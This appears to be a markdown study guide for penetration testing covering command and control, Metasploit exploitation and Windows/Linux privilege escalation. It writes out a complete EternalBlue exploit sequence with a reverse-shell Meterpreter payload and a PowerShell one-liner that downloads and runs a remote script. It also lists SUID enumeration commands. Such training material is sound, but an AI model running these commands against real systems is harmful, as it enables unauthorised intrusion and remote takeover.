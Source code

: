 ```markdown
# Exploring Exploitation

## Understand Command and Control (C2) and How It Fits into a Penetration Tester’s Toolkit

Command and Control (C2) is a technique used by attackers to maintain communication with compromised systems. It allows attackers to execute commands, transfer files, and control the target system remotely. C2 is an essential part of a penetration tester's toolkit for post-exploitation activities.

### Key Concepts

- **C2 Server**: The server controlled by the attacker that sends commands to and receives data from compromised systems.
- **Beacon**: A communication mechanism used by compromised systems to check in with the C2 server.
- **Payload**: Malicious code that establishes a connection between the compromised system and the C2 server.

### Example

- **Scenario**: A penetration tester uses a C2 framework to control a compromised system.
  - **C2 Server**: The tester sets up a C2 server to manage compromised systems.
  - **Payload**: The tester delivers a payload to the target system that establishes a connection with the C2 server.
  - **Beacon**: The compromised system periodically checks in with the C2 server, allowing the tester to execute commands and transfer files.

## Use Metasploit to Automate Exploitation Activities

Metasploit is a powerful penetration testing framework that automates the process of exploiting vulnerabilities. It provides a wide range of tools and modules for conducting various exploitation activities.

### Example

- **Basic Exploitation with Metasploit**:
  1. **Start Metasploit**:
     ```bash
     msfconsole
     ```

  2. **Search for an Exploit**:
     ```plaintext
     search ms17_010
     ```

  3. **Select an Exploit Module**:
     ```plaintext
     use exploit/windows/smb/ms17_010_eternalblue
     ```

  4. **Set the Target**:
     ```plaintext
     set RHOSTS 192.0.2.1
     ```

  5. **Set the Payload**:
     ```plaintext
     set payload windows/x64/meterpreter/reverse_tcp
     ```

  6. **Set the LHOST**:
     ```plaintext
     set LHOST 192.0.2.2
     ```

  7. **Run the Exploit**:
     ```plaintext
     exploit
     ```

  - **Explanation**: This sequence of commands uses Metasploit to exploit the MS17-010 vulnerability on a target system with IP address `192.0.2.1`, delivering a Meterpreter payload that provides a reverse shell to the attacker's system with IP address `192.0.2.2`.

## Explain Privilege Escalation and How It Fits into the Attack Cycle

Privilege escalation is the process of gaining higher-level privileges on a compromised system. It is a critical step in the attack cycle, allowing attackers to access sensitive data, execute privileged commands, and maintain persistence.

### Types of Privilege Escalation

- **Vertical Privilege Escalation**: Gaining higher privileges than initially granted, such as moving from a regular user to an administrator.
- **Horizontal Privilege Escalation**: Gaining access to the same level of privileges but for different accounts or resources.

### Example

- **Scenario**: An attacker gains initial access to a system with limited privileges and uses privilege escalation techniques to gain administrative access.
  - **Initial Access**: The attacker exploits a vulnerability to gain access as a regular user.
  - **Privilege Escalation**: The attacker exploits a local vulnerability to elevate privileges to an administrator.

## Perform Basic Privilege-Escalation Tasks

### Example

- **Windows Privilege Escalation**:
  1. **Identify System Information**:
     ```plaintext
     systeminfo
     ```
     - **Explanation**: This command provides information about the operating system, including installed patches and hotfixes.

  2. **Check for Vulnerabilities**:
     ```plaintext
     wmic qfe get Caption,Description,HotFixID,InstalledOn
     ```
     - **Explanation**: This command lists installed patches and hotfixes, which can be cross-referenced with known vulnerabilities.

  3. **Exploit a Vulnerability**:
     - **Example**: Exploiting the MS16-032 vulnerability to gain SYSTEM privileges.
     ```plaintext
     powershell -exec bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://example.com/ms16-032.ps1')"
     ```

- **Linux Privilege Escalation**:
  1. **Identify System Information**:
     ```bash
     uname -a
     ```
     - **Explanation**: This command provides information about the kernel version and system architecture.

  2. **Check for SUID Binaries**:
     ```bash
     find / -perm -4000 -type f 2>/dev/null
     ```
     - **Explanation**: This command lists files with the SUID bit set, which can be potential targets for privilege escalation.

  3. **Exploit a SUID Binary**:
     - **Example**: Exploiting a vulnerable SUID binary to gain root access.
     ```bash
     ./vulnerable_suid_binary
     ```

By understanding these concepts and using these tools, you can effectively perform exploitation and privilege escalation activities, enhancing your penetration testing skills.

```
